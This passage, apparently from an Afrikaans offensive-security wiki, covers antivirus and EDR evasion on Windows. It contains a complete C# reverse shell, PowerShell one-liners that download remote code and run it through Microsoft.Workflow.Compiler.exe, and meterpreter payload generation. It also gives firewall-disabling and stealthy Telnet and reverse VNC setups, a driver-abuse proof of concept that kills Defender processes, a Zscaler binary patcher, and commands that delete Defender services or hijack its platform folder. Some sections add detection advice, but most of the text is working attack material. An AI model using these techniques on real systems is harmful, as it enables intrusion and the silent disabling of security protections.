4. Voer die verskafte opdrag uit met die nodige aanpassings: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (die `--pin`-parameter stel die PIN sonder die GUI in).
 

## Gevorderde ontduiking

{{#ref}}
virtualized-payload-execution.md
{{#endref}}

Ontduiking is ’n baie ingewikkelde onderwerp; soms moet jy baie verskillende telemetriebronne op een stelsel in ag neem, dus is dit feitlik onmoontlik om in volwasse omgewings heeltemal onopgespoor te bly.

Elke omgewing waarteen jy te staan kom, sal sy eie sterk- en swakpunte hê.

Ek moedig jou sterk aan om hierdie praatjie deur [@ATTL4S](https://twitter.com/DaniLJ94) te kyk om ’n vastrapplek in meer gevorderde ontduikingstegnieke te kry.


{{#ref}}
https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo
{{#endref}}

Dit is ook nog ’n uitstekende praatjie deur [@mariuszbit](https://twitter.com/mariuszbit) oor ontduiking in diepte.


{{#ref}}
https://www.youtube.com/watch?v=IbA7Ung39o4
{{#endref}}

## **Ou tegnieke**

### **Kyk watter dele Defender as kwaadwillig beskou**

Jy kan [**ThreatCheck**](https://github.com/rasta-mouse/ThreatCheck) gebruik, wat **dele van die binary sal verwyder** totdat dit **uitvind watter deel Defender as kwaadwillig beskou**, en dit aan jou afsonderlik sal gee.\
Nog ’n nutsding wat **dieselfde doen, is** [**avred**](https://github.com/dobin/avred), met ’n oop webdiens wat hierdie diens by [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/) aanbied.

### **Telnet-bediener**

Tot en met Windows10 het alle Windows-weergawes ’n **Telnet-bediener** ingesluit wat jy (as administrateur) kon installeer deur die volgende uit te voer:

```bash
pkgmgr /iu:"TelnetServer" /quiet
```

Laat dit **begin** wanneer die stelsel begin en **voer** dit nou uit:

```bash
sc config TlntSVR start= auto obj= localsystem
```

**Verander die telnet-poort (stealth) en deaktiveer die firewall:**

```
tlntadmn config port=80
netsh advfirewall set allprofiles state off
```

### UltraVNC

Laai dit af vanaf: [http://www.uvnc.com/downloads/ultravnc.html](http://www.uvnc.com/downloads/ultravnc.html) (jy wil die bin-aflaaie hê, nie die installeringsprogram nie)

**OP DIE HOST**: Voer _**winvnc.exe**_ uit en stel die bediener op:

- Aktiveer die opsie _Disable TrayIcon_
- Stel ’n wagwoord in _VNC Password_ in
- Stel ’n wagwoord in _View-Only Password_ in

Skuif dan die binêre lêer _**winvnc.exe**_ en die **nuut** geskepte lêer _**UltraVNC.ini**_ na die **slagoffer**

#### **Omgekeerde verbinding**

Die **aanvaller** moet die binêre lêer `vncviewer.exe -listen 5900` **op sy** **host** uitvoer sodat dit **gereed** is om ’n omgekeerde **VNC-verbinding** te ontvang. Begin dan binne die **slagoffer** die winvnc-daemon met `winvnc.exe -run` en voer `winwnc.exe [-autoreconnect] -connect <attacker_ip>::5900` uit

**WAARSKUWING:** Om stealth te behou, moet jy nie ’n paar dinge doen nie

- Moenie `winvnc` begin as dit reeds loop nie, anders sal jy ’n [opspringvenster](https://i.imgur.com/1SROTTl.png) aktiveer. Kyk of dit loop met `tasklist | findstr winvnc`
- Moenie `winvnc` begin sonder `UltraVNC.ini` in dieselfde gids nie, anders sal [die konfigurasievenster](https://i.imgur.com/rfMQWcf.png) oopmaak
- Moenie `winvnc -h` uitvoer vir hulp nie, anders sal jy ’n [opspringvenster](https://i.imgur.com/oc18wcu.png) aktiveer

### GreatSCT

Laai dit af vanaf: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```

Binne GreatSCT:

```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```

Begin nou die **lister** met `msfconsole -r file.rc` en **voer** die **xml payload** uit met:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

**Huidige Defender sal die proses baie vinnig beëindig.**

### Ons eie reverse shell saamstel

https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### Eerste C# reverse shell

Stel dit saam met:

```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```

Gebruik dit met:

```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```

### C# met behulp van ’n compiler

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```

[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Outomatiese aflaai en uitvoering:

```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


{{#ref}}
https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f
{{#endref}}

Lys van C#-obfuskators: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++

```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

- [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
- [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
- [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
- [https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)
- [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
- [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Python gebruik vir 'n voorbeeld van die bou van injectors:

- [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### Ander tools

```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```

### Meer

- [https://github.com/Seabreg/Xeexe-TopAntivirusEvasion](https://github.com/Seabreg/Xeexe-TopAntivirusEvasion)

## Bring Your Own Vulnerable Driver (BYOVD) – AV/EDR vanuit kernruimte uitskakel

Storm-2603 het ’n klein konsolehulpmiddel genaamd **Antivirus Terminator** gebruik om eindpuntbeskerming te deaktiveer voordat dit ransomware laat val het. Die hulpmiddel bring sy **eie kwesbare maar *ondertekende* drywer** saam en misbruik dit om bevoorregte kernbewerkings uit te voer wat selfs AV-dienste met Protected-Process-Light (PPL) nie kan blokkeer nie.<sup>[[12]](#references)</sup>

Kernpunte
1. **Ondertekende drywer**: Die lêer wat na die skyf geskryf word, is `ServiceMouse.sys`, maar die binêre lêer is die wettig ondertekende drywer `AToolsKrnl64.sys` van Antiy Labs se “System In-Depth Analysis Toolkit”. Omdat die drywer ’n geldige Microsoft-handtekening het, laai dit selfs wanneer Driver-Signature-Enforcement (DSE) geaktiveer is.
2. **Diensinstallasie**:
   ```powershell
   sc create ServiceMouse type= kernel binPath= "C:\Windows\System32\drivers\ServiceMouse.sys"
   sc start  ServiceMouse
   ```
   Die eerste reël registreer die driver as ’n **kernel service** en die tweede een begin dit, sodat `\\.\ServiceMouse` vanaf userland toeganklik word.
3. **IOCTLs wat deur die driver blootgestel word**
   | IOCTL-kode | Vermoë                                      |
   |-----------:|-----------------------------------------|
   | `0x99000050` | Beëindig ’n arbitrêre proses volgens PID (word gebruik om Defender/EDR-dienste te beëindig) |
   | `0x990000D0` | Vee ’n arbitrêre lêer op die skyf uit |
   | `0x990001D0` | Laai die driver af en verwyder die diens |

   Minimale C-proof-of-concept:
   ```c
   #include <windows.h>
   
   int main(int argc, char **argv){
       DWORD pid = strtoul(argv[1], NULL, 10);
       HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
       DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
       CloseHandle(hDrv);
       return 0;
   }
   ```
4. **Waarom dit werk**: BYOVD omseil beskermings in gebruikersmodus heeltemal; kode wat in die kernel uitgevoer word, kan *beskermde* prosesse oopmaak, beëindig of met kernel-objekte peuter, ongeag PPL/PP, ELAM of ander hardening-funksies.

Opsporing / Versagting
•  Aktiveer Microsoft se lys van kwesbare drivers wat geblokkeer moet word (`HVCI`, `Smart App Control`) sodat Windows weier om `AToolsKrnl64.sys` te laai.
•  Monitor die skepping van nuwe *kernel*-dienste en waarsku wanneer ’n driver vanaf ’n world-writable-gids gelaai word of nie op die allow-list voorkom nie.
•  Let op vir handles in gebruikersmodus na pasgemaakte device-objekte, gevolg deur verdagte `DeviceIoControl`-oproepe.

### Omseiling van Zscaler Client Connector se toestelstatuskontroles via patching van binaries op skyf

Zscaler se **Client Connector** pas toestelstatusreëls plaaslik toe en maak staat op Windows RPC om die resultate aan ander komponente te kommunikeer. Twee swak ontwerpkeuses maak ’n volledige omseiling moontlik:

1. Toestandsevaluering vind **heeltemal aan die kliëntkant** plaas (’n boolean word na die bediener gestuur).
2. Interne RPC-eindpunte bevestig net dat die uitvoerbare lêer wat koppel **deur Zscaler onderteken is** (via `WinVerifyTrust`).<sup>[[11]](#references)</sup>

Deur **vier ondertekende binaries op skyf te patch**, kan albei meganismes geneutraliseer word:

| Binêre lêer | Oorspronklike logika wat gepatch is | Resultaat |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | Gee altyd `1` terug, dus voldoen elke kontrole aan die vereistes |
| `ZSAService.exe` | Indirekte oproep na `WinVerifyTrust` | NOP-ed ⇒ enige proses (selfs ’n ongetekende een) kan aan die RPC-pipes koppel |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | Vervang met `mov eax,1 ; ret` |
| `ZSATunnel.exe` | Integriteitskontroles op die tunnel | Kortgesluit |

Uittreksel van ’n minimale patcher:

```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
    data = f.read()
    off = data.find(pattern)
    if off == -1:
        print("pattern not found")
    else:
        f.seek(off)
        f.write(replacement)
```

Nadat die oorspronklike lêers vervang is en die diensstapel herbegin is:

* **Alle** sekuriteitsposisie-kontroles wys **groen/voldoenend**.
* Ongesignede of gewysigde binaries kan die genoemde named-pipe RPC-eindpunte oopmaak (bv. `\\RPC Control\\ZSATrayManager_talk_to_me`).
* Die gekompromitteerde gasheer kry onbeperkte toegang tot die interne netwerk wat deur die Zscaler-beleide gedefinieer word.

Hierdie gevallestudie demonstreer hoe suiwer kliëntkant-vertrouensbesluite en eenvoudige handtekeningkontroles met ’n paar byte-wysigings omseil kan word.

## Microsoft Defender `BTR.sys` misbruik van vertroude funksionaliteit

Defender se **Boot-Time Removal**-drywer is ’n nuttige teenvoorbeeld vir klassieke BYOVD. `BTR.sys` is ’n wettige, deur Microsoft ondertekende remediëringskomponent sonder ’n geheuekorrupsie-fout of ’n IOCTL-koppelvlak; nadat administrateurtoegang en `SeLoadDriverPrivilege` verkry is, kan ’n operateur eerder sy private remediëringstransaksie vervals en die bedoelde Ring-0-lêer-/registerbewerkings uitvoer. Dit is ’n **primitief vir AV/EDR-neutralisering ná kompromittering, nie vir aanvanklike toegang of voorregte-eskalasie nie**, en die drywer kan uit die teiken se eie `MpEngine.dll`-hulpbron `BOOTTIMETOOL` onttrek word, eerder as om ’n opvallende derdeparty-drywer in te voer.<sup>[[36]](#references)</sup>

### Voorbereiding van die eenmalige drywer

Defender plaas die hulpbron gewoonlik as ’n ewekansige `[a-z]{8}.sys`-lêer en registreer ’n kerndiens met ’n soortgelyke naam. `DriverEntry` lees die diens se `Args`-waarde, maak die verwysde NTFS ADS oop, dekripteer en valideer die aksielys, skryf terugvoer en gee ná suksesvolle uitvoering `0xC0000056` (`STATUS_DELETE_PENDING`) terug sodat die drywer ontlaai in plaas daarvan om inwonend te bly. ’n Vervalste diens het die volgende kenmerkende waardes.<sup>[[36]](#references)[[37]](#references)</sup>

```text
Type         = 1
Start        = 1
ErrorControl = 0
ImagePath    = \??\C:\Windows\System32\drivers\<random>.sys
Group        = Boot Bus Extender
Args         = C:\Windows\System32\drivers\<random>.sys:changelist
```

Die `:changelist`-stroom bevat een RC4-geënkripteerde blob. Die geanaliseerde builds hergebruik ’n vaste sleutel van 256 grepe, dus is enkripsie nie ’n magtigingsgrens nie. ’n Geldige plaintext het ’n globale kop van 24 grepe (`Magic=0xFEE1DEAD`, `Version=2`, `PayloadOffset=0x10`, kop-CRC en ’n transaksie-ID wat van die payload afgelei word), gevolg deur ’n nulbeëindigde UTF-16-terugvoerpad en enige aantal items. Elke item het ’n kop van 16 grepe (`DataSize`, `Action`, `HeaderCRC`, `DataCRC`) plus aksiespesifieke data wat eindig met **presies vier NUL-grepe**. Elke kop-/data-area word afsonderlik nagegaan met CRC-32-polinoom `0xEDB88320`, aanvanklike toestand `0xFFFFFFFF` en **geen finale XOR** (`~CRC32`); die CRC-toestand word vir elke area teruggestel.<sup>[[36]](#references)[[37]](#references)</sup>

Die aanvaarde aksie-ID’s stel hierdie kernel-primitiewe beskikbaar.<sup>[[36]](#references)[[37]](#references)</sup>

| ID | Itemdata | Resultaat |
| --- | --- | --- |
| 1 | `[UTF-16 path]` | Vee ’n lêer uit, insluitend ’n geslote lêer |
| 2 | `[UTF-16 path]` | Verwyder ’n leë gids |
| 3 | `[Flags][source][destination]` | Skuif ’n lêer na ’n aanvallergekose beskermde pad; ’n leë bestemming beteken uitvee |
| 4 | `[Flags][key path]` | Vee ’n registersleutel rekursief uit |
| 5 | `[Flags][key path + "\\" + value]` | Vee ’n registerwaarde uit |
| 6 | `[Flags][type][size][key path + "\\" + value][data]` | Skep/dateer ’n registerwaarde op en skep ontbrekende sleutelpaadjies |

Vir aksies 5 en 6 is die skeidingsteken tussen sleutel en waarde op die draad **twee opeenvolgende backslashes**; ’n konvensioneel geformateerde pad sal nie korrek gesplit word nie. Die terugvoerlêer weerspieël meestal die versoek, maar die eerste vier datagrepe van elke item word die resulterende `NTSTATUS`. Vir aksies 1 en 2, wat geen voorste vlagveld het nie, skuif BTR die pad na die vier gereserveerde agterste grepe om plek vir daardie status te maak.<sup>[[36]](#references)</sup>

### `BTR_CLI`-werkvloei en vroeëselflaaivenster

[`BTR_CLI`](https://github.com/Dump-GUY/BTR_CLI) implementeer die volledige ketting: onttrek `BTR.sys` uit plaaslike Defender, skep `<random>.sys:changelist` en ’n terugvoerstroom, serialiseer/gevolgkontroleer/enkreer gekoppelde aksies, skep die diensregistersleutel direk en roep dan `NtLoadDriver` aan vir `-trigger now`, of laat dit as ’n stelselbeginbestuurder vir `-trigger boot`. Direkte registervoorbereiding vermy die gewone SCM `CreateServiceW`-pad en veroorsaak dus **nie** diensinstallasiegebeurtenis-ID 7045 nie. Artefakte wat met die selflaaigeleentheid geaktiveer is, kan later verwyder word met `BTR_CLI.exe -cleanup <service_name>`.<sup>[[36]](#references)[[37]](#references)</sup>

```powershell
# Runtime: remove protected security-service registrations from Ring 0
BTR_CLI.exe -chain -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WdFilter" -item "4|HKLM\SYSTEM\CurrentControlSet\Services\WinDefend" -trigger now

# Boot: delete a security driver before its user-mode protection stack starts
BTR_CLI.exe -a 1 -s "C:\Windows\System32\drivers\wd\WdFilter.sys" -trigger boot
```

`Start=0` is nie bruikbaar nie, omdat BTR lêer-I/O vanaf `DriverEntry` uitvoer voordat die stoorstapel en `SystemRoot`-skakel gereed is. `Start=1` plus die hoëprioriteitgroep `Boot Bus Extender` voer dit eerder in Fase 1 uit: NTFS is bruikbaar, maar baie sekuriteitsdrywers wat met die stelsel begin en EDR-dienste in gebruikersmodus is nog nie geïnisialiseer nie. Filters wat met die stelsel begin, soos `WdFilter`, is dalk reeds gelaai, maar BTR kan hul binêre lêers of dienskonfigurasie verwyder voordat die volgende begin, en kan diensuitvoerbare lêers uitvee voordat SCM hulle begin. ELAM vul nie hierdie gaping nie, omdat BTR ná die evaluering van selflaaiprogramme loop en ’n geldige Microsoft-handtekening het.<sup>[[36]](#references)</sup>

Verskeie aksies word in een transaksie uitgevoer. Die PoC voeg Aksie 1 vooraan vir die hardgekodeerde `\SystemRoot\Temp\BootClean.log`: BTR skep hierdie logboek, verwerk dan sy eie uitveeversoek en verwyder dit voordat dit ontlaai. Dit verminder die bewyse, terwyl terugvoer in `<random>.sys:<random>.dat` geplaas kan word sodat die drywer en albei strome saam verwyder kan word.<sup>[[36]](#references)[[37]](#references)</sup>

### Korrelasies met hoë seinwaarde vir opsporing

Reëls wat net op handtekeninge staatmaak en die Microsoft-lys van geblokkeerde kwesbare drywers spreek nie misbruik van BTR se beoogde funksionaliteit aan nie. Gee voorkeur aan hierdie gedragskorrelasies, en onderskei terselfdertyd wettige Defender-afstamming van ’n willekeurige lanseerder.<sup>[[36]](#references)</sup>

- **Sysmon 15:** `.sys:changelist`-skepping is universeel vir BTR-stadiëring. ’n `.dat` ADS wat aan dieselfde `.sys` gekoppel is, is besonder verdag, omdat wettige Defender gewoonlik terugvoer onder `C:\ProgramData\Microsoft\Windows Defender\Scans\RebootActions\` plaas.
- **Sysmon 12/13 sonder System 7045:** korreleer direkte skepping van `HKLM\SYSTEM\CurrentControlSet\Services\<random>` met `Args=...:changelist` en `Group=Boot Bus Extender`, sonder ’n ooreenstemmende SCM-installasiegebeurtenis.
- **Sysmon 6 -> 23:** korreleer die laai van ’n bekende BTR-drywer uit ’n nie-Defender-afstamming met daaropvolgende lêeruitwissing toegeskryf aan `System`/PID 4, veral vir sekuriteitsbinêre lêers.
- **Sysmon 11 -> 23:** waarsku oor die vinnige skepping en uitwissing van `\SystemRoot\Temp\BootClean.log` deur `System`/PID 4.
- Beperk en oudit die toekenning/aktivering van `SeLoadDriverPrivilege`; ’n Microsoft-handtekening alleen is nie voldoende rede vir vertroue wanneer ’n drywer vir ’n sekuriteitsnutsmiddel deur `cmd.exe`, PowerShell of ’n onbekende proses gestadiëer word nie.

## Misbruik van Protected Process Light (PPL) om AV/EDR met LOLBINs te peuter

Protected Process Light (PPL) dwing ’n ondertekenaar-/vlakhierargie af sodat slegs ewe- of hoërvlakbeskermde prosesse met mekaar kan peuter. Vanuit ’n offensiewe perspektief kan jy, as jy ’n PPL-geaktiveerde binêre lêer wettig kan begin en die argumente daarvan kan beheer, goedaardige funksionaliteit (bv. logging) omskep in ’n beperkte, PPL-gesteunde skryfprimitief vir beskermde gidse wat deur AV/EDR gebruik word.<sup>[[16]](#references)[[17]](#references)[[18]](#references)[[19]](#references)[[20]](#references)</sup>

Wat ’n proses as PPL laat loop
- Die teiken-EXE (en enige gelaaide DLL’s) moet onderteken wees met ’n PPL-geskikte EKU.
- Die proses moet met CreateProcess geskep word deur die vlae te gebruik: `EXTENDED_STARTUPINFO_PRESENT | CREATE_PROTECTED_PROCESS`.
- ’n Versoenbare beskermingsvlak moet aangevra word wat by die ondertekenaar van die binêre lêer pas (bv. `PROTECTION_LEVEL_ANTIMALWARE_LIGHT` vir teenwanware-ondertekenaars, `PROTECTION_LEVEL_WINDOWS` vir Windows-ondertekenaars). Verkeerde vlakke sal tydens skepping misluk.

Sien ook hier ’n breër inleiding tot PP/PPL en LSASS-beskerming:

{{#ref}}
stealing-credentials/credentials-protections.md
{{#endref}}

Lanseerdernutsmiddels
- Oopbronhulpmiddel: CreateProcessAsPPL (kies die beskermingsvlak en stuur argumente aan die teiken-EXE deur):
  - [https://github.com/2x7EQ13/CreateProcessAsPPL](https://github.com/2x7EQ13/CreateProcessAsPPL)<sup>[[19]](#references)</sup>
- Gebruikspatroon:

```text
CreateProcessAsPPL.exe <level 0..4> <path-to-ppl-capable-exe> [args...]
# example: spawn a Windows-signed component at PPL level 1 (Windows)
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe <args>
# example: spawn an anti-malware signed component at level 3
CreateProcessAsPPL.exe 3 <anti-malware-signed-exe> <args>
```

LOLBIN-primitief: ClipUp.exe
- Die getekende stelselbinêr `C:\Windows\System32\ClipUp.exe` begin homself en aanvaar ’n parameter om ’n loglêer na ’n pad te skryf wat deur die oproeper gespesifiseer word.
- Wanneer dit as ’n PPL-proses geloods word, vind die lêerskryf plaas met PPL-ondersteuning.
- ClipUp kan nie paaie met spasies ontleed nie; gebruik 8.3-kortpaaie om na normaalweg beskermde liggings te wys.

8.3-kortpadhelpers
- Lys kort name: `dir /x` in elke ouergids.
- Lei ’n kort pad in cmd af: `for %A in ("C:\ProgramData\Microsoft\Windows Defender\Platform") do @echo %~sA`

Misbruiksketting (abstrak)
1) Begin die PPL-geskikte LOLBIN (ClipUp) met `CREATE_PROTECTED_PROCESS` deur ’n lanseerder te gebruik (bv. CreateProcessAsPPL).
2) Gee die ClipUp-logpadargument deur om lêerskepping in ’n beskermde AV-gids af te dwing (bv. Defender Platform). Gebruik 8.3-kortpaaie indien nodig.
3) As die teikenbinêr normaalweg deur die AV oopgemaak of gesluit gehou word terwyl dit loop (bv. MsMpEng.exe), skeduleer die skryfaksie tydens selflaai, voordat die AV begin, deur ’n outomatiese begin-diens te installeer wat betroubaar vroeër loop. Valideer die selflaaivolgorde met Process Monitor (selflaailogging).
4) Met herbegin vind die PPL-ondersteunde skryfaksie plaas voordat die AV sy binêre lêers sluit, wat die teikenlêer beskadig en verhoed dat dit begin.

Voorbeeld-aanroep (paaie vir veiligheid weggelaat/verkort):

```text
# Run ClipUp as PPL at Windows signer level (1) and point its log to a protected folder using 8.3 names
CreateProcessAsPPL.exe 1 C:\Windows\System32\ClipUp.exe -ppl C:\PROGRA~3\MICROS~1\WINDOW~1\Platform\<ver>\samplew.dll
```

Notas en beperkings
- Jy kan nie die inhoud beheer wat ClipUp skryf nie, slegs waar dit geskryf word; die primitief is geskik vir korrupsie eerder as presiese inhoudsinspuiting.
- Vereis plaaslike admin/SYSTEM om ’n diens te installeer/te begin, en ’n herlaaivenster.
- Tydsberekening is krities: die teiken moet nie oop wees nie; uitvoering tydens opstart vermy lêersluitings.

Opsporing
- Proseskepping van `ClipUp.exe` met ongewone argumente, veral wanneer dit deur nie-standaard lanseerders as ouerproses begin word, rondom opstart.
- Nuwe dienste wat ingestel is om verdagte binaries outomaties te begin en konsekwent voor Defender/AV te begin. Ondersoek die skep/wysiging van dienste voordat Defender se opstartfoute voorkom.
- Lêerintegriteitsmonitering op Defender-binaries/Platform-gidse; onverwagte lêerskeppings/-wysigings deur prosesse met beskermdeprosesvlae.
- ETW/EDR-telemetrie: soek na prosesse wat met `CREATE_PROTECTED_PROCESS` geskep is en afwykende gebruik van PPL-vlakke deur nie-AV-binaries.

Versagtings
- WDAC/Code Integrity: beperk watter ondertekende binaries as PPL mag loop en onder watter ouerprosesse; blokkeer ClipUp-aanroepe buite wettige kontekste.
- Dienshigiëne: beperk die skep/wysiging van dienste wat outomaties begin en monitor manipulasie van die beginvolgorde.
- Maak seker dat Defender se peuterbeskerming en vroeëlaaibeskerming geaktiveer is; ondersoek opstartfoute wat op binêre korrupsie dui.
- Oorweeg dit om die generering van 8.3-kortname te deaktiveer op volumes wat sekuriteitsnutsgoed huisves, indien dit met jou omgewing versoenbaar is (toets deeglik).

## Peuter met Microsoft Defender via kaping van ’n Platform-weergawelêergidsimboolskakel

Windows Defender kies die platform waarvandaan dit loop deur subgidse onder die volgende te enumereer:
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

Dit kies die subgids met die hoogste leksikografiese weergawestring (bv. `4.18.25070.5-0`) en begin dan die Defender-diensprosesse daarvandaan (terwyl diens-/registerpaaie dienooreenkomstig opgedateer word). Hierdie keuse vertrou gidsinskrywings, insluitend gidsherontledingspunte (simboolskakels). ’n Administrateur kan dit benut om Defender na ’n pad te herlei wat deur ’n aanvaller geskryf kan word en DLL-sylaai of diensontwrigting te bewerkstellig.<sup>[[21]](#references)[[22]](#references)</sup>

Voorvereistes
- Plaaslike Administrateur (nodig om gidse/simboolskakels onder die Platform-gids te skep)
- Vermoë om te herlaai of Defender-platformherkeuse te aktiveer (diensherbegin tydens opstart)
- Slegs ingeboude nutsgoed benodig (mklink)

Waarom dit werk
- Defender blokkeer skryfbewerkings in sy eie gidse, maar sy platformkeuse vertrou gidsinskrywings en kies die leksikografies hoogste weergawe sonder om te valideer dat die teiken na ’n beskermde/vertroude pad verwys.

Stap vir stap (voorbeeld)
1) Berei ’n skryfbare kloon van die huidige platformgids voor, bv. `C:\TMP\AV`:
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) Skep ’n gids-symlink met ’n hoër weergawe binne Platform wat na jou vouer wys:
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) Trigger-keuse (herlaai word aanbeveel):
```cmd
shutdown /r /t 0
```
4) Verifieer dat MsMpEng.exe (WinDefend) vanaf die herlei pad loop:
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
